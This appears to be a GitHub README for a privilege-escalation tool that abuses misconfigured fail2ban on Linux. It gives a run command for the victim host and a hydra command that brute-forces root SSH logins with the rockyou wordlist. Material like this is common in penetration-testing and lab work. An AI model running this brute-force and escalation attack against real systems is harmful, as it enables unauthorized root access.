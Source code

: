 
# Privilege Escalation via fail2ban
In Linux, fail2ban is mostly used to protect the SSH service. 
If the daemon detects several unsuccessful ssh login attempts, it executes a command that blocks the IP address.
So some misconfigurations can lead to privilege escalation.

![alt text](https://github.com/rvizx/fail2ban/blob/main/img.png?raw=true)

# Usage
@victim
```
python3 fail2ban.py
```


@attacker
```
hydra <ip-addr> -l root -P /usr/share/wordlist/rockyou.txt ssh
```

# Notes
https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7
https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/

